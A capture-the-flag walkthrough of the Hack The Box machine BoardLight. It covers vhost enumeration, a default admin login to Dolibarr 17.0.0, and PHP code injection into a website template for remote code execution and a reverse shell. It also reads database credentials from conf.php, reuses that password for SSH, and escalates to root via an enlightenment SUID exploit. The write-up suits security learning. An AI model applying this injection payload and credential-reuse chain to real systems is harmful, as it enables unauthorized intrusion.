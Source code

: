 ```yaml
---
date: 2025-01-15
categories: [CTF, HTB]
title: ""
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce']

description: "BoardLight - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - BoardLight

NMAP

![image1](../resources/c584a483f0864c0eb03583194f9d116d.png)

- From the website we get the domain name:

![image2](../resources/14b6dca24a1345e5bdf1e13fa77d9aff.png)

Add board.htb to /etc/hosts

- Subdomain enum:
```bash
gobuster vhost -u <http://board.htb> -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 64 --append-domain

```

![image3](../resources/0ebd3032692f4606bee68d2167100955.png)

We get:

**crm.board.htb**:

- Got a login site:

![image4](../resources/2bace493e6bf4f4eb6d011c15f32677a.png)

Guessed **admin : admin**

- And we're in:

![image5](../resources/4d0b4e9f990a46fc9406753737c3793c.png)

- We can see it runs **Dolibarr 17.0.0**

**<u>RCE exploit:</u>**

On the website tab - we can get RCE
<https://www.swascan.com/security-advisory-dolibarr-17-0-0/>

(The website resets quite often)

- Create new website
- Import website template
(I chose the first template and used the About Us page)
- Edit HTML Source

- I tested with:
\<?php includeContainer('header'); ?\>

\<section id="mysection1" contenteditable="true"\>

```bash
\<?**PHP** echo system("whoami");?\>

```
\</section\>

\<?php includeContainer('footer'); ?\>


![image6](../resources/fdbf7bdebb1648a2b2616aca7689f0df.png)

- Now if we use Pentestmonkey PHP rev shell and paste that inside the boilerplate code:
\<?php includeContainer('header'); ?\>

\<section id="mysection1" contenteditable="true"\>

**\<Pentest Monkey code - Change to Capital PHP\>**

\</section\>

\<?php includeContainer('footer'); ?\>


![image7](../resources/1fa07d7e4e8f40ac92a600ca3eaa0cdc.png)

- Set up listener
- Click save

![image8](../resources/5882ae1f6f5a4443b03e4b82cdcb113f.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

```
- Upload LinPEAS

We can see port 3306 open - MySQL


![image9](../resources/484b5c2483254a3bb3e9797058197f0a.png)

Also, it found a database.php file:

/var/www/html/crm.board.htb/htdocs/admin/system/database.php


![image10](../resources/1ded344e823e49cd8c1de071f3bc06da.png)

The file itself shows us the variables imported from the conf.php file ie. \$dolibarr_main_db_pass

- The conf file is located in:
/var/www/html/crm.board.htb/htdocs/conf/conf.php


![image11](../resources/f37dc24e41704f149c64592c64d6b649.png)

And here we get MySQL creds

\$dolibarr_main_db_user='**dolibarrowner**';

\$dolibarr_main_db_pass='**serverfun2\$2023!!**';


![image12](../resources/7987608bca534100b188f1bbf75a43fb.png)

```bash
show databases;
use dolibarr;
show tables;

```
There are a lot of tables in the DB

To find which have data do:

```bash
SELECT TABLE_NAME,TABLE_ROWS FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dolibarr';

```

![image13](../resources/0bdac24f00f146cd9b7d6f450fedea2b.png)


![image14](../resources/f0cd93d40d4a42cfa74a6d846d8a0758.png)

- After messing around with trying to crack the hash - which is a dead end and not needed:

I reused the mysql user password for larissa.

```bash
su larissa

# serverfun2\$2023!!
```

![image15](../resources/a6de4baf5e264e299fb613e990805b06.png)

- We can now SSH in

![image16](../resources/93cc749938ad404983752f4386230aea.png)

```bash
cat user.txt

```
**<u>Priv Esc</u>**

- In LinPEAS (updated version) - we see the unknown SUID binaries - enlightenment:

![image17](../resources/de2f56d2bcdc4483b51ff7ec52b00994.png)

- There is an exploit for this:
<https://www.exploit-db.com/exploits/51180>

- Run the bash script:

![image18](../resources/b9c6bf178c7643898908e1cce9a8f461.png)

- Root:

![image19](../resources/afb75ccbe05648fb914a5c94418df6f5.png)